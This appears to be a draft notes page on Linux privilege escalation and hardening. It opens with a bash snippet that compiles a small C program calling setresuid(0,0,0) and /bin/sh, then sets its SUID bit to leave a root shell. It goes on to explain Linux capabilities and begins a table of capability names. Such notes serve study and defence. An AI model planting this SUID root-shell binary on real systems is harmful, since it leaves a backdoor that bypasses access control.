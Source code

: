 ```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # add execute permission
sudo chmod +s /tmp/suid # add suid permission

#Executing this program will give the user a root shell.  
#Note that sudo rights are required to accomplish this.
```

## File Capabilities

What are Linux capabilities?

BLUF: Capabilities break up root privileges in smaller units, so root access is no longer needed. Most of the binaries that have SUID permissions can be changed to use capabilities instead, which in turn increases security.

TODO: rewrite this for clarity and brevity

> Normally the root user (or any ID with UID of 0) gets a special treatment when running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. In other words, this user is allowed to do (almost) anything. Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.&#x20;
>
> Why capabilities? To better understand how Linux capabilities work, let’s have a look first at the problem it tries to solve. Let’s assume we are running a process as a normal user. This means we are non-privileged. We can only access data that owned by us, our group, or which is marked for access by all users. At some point in time, our process needs a little bit more permissions to fulfill its duties, like opening a network socket. The problem is that normal users can not open a socket, as this requires root permissions.&#x20;
>
> Option 1: Giving everyone root permissions One of the solutions is to allow some permissions (by default) to all users. There is a serious flaw in this approach. Allowing this kind of permissions, for all users, would open up the system for a flood of system abuse. The reason is that every small opportunity is being used for good, but also for bad. Giving away too many privileges by default will result in unauthorized changes of data, backdoors and circumventing access controls, just to name a few.&#x20;
>
> Option 2: Using a fine-grained set of privileges For example, a web server normally runs at port 80. To start listening on one of the lower ports (<1024), you need root permissions. This web server daemon needs to be able to listen to port 80. However, it does not need access to kernel modules as that would be a serious threat to the integrity of the system!. Instead of giving this daemon all root permissions, we can set a capability on the related binary, like CAP\_NET\_BIND\_SERVICE. With this specific capability, it can open up port 80. Much better!&#x20;
>
> Replacing setuid with capabilities Assigning the setuid bit to binaries is a common way to give programs root permissions. Linux capabilities is a great alternative to reduce the usage of setuid.

| Capabilities name           | Description                                                                                                                                 |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| **CAP\_AUDIT\_CONTROL**     | Allow to enable/disable kernel auditing                                                                                                     |
| **CAP\_AUDIT\_WRITE**       | Helps to write records to kernel auditing log                                                                                               |
| **CAP\_BLOCK\_SUSPEND**     | This feature can block system suspends                                                                                                      |
| **CAP\_CHOWN**              | Allow user to make arbitrary change to files UIDs and GIDs                                                                                  |
| **CAP\_DAC\_OVERRIDE**      | This helps to bypass file read, write and execute permission checks                                                                         |
| **CAP\_DAC\_READ\_SEARCH**  | This only bypass file and directory read/execute permission checks                                                                          |
| **CAP\_FOWNER**             | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file |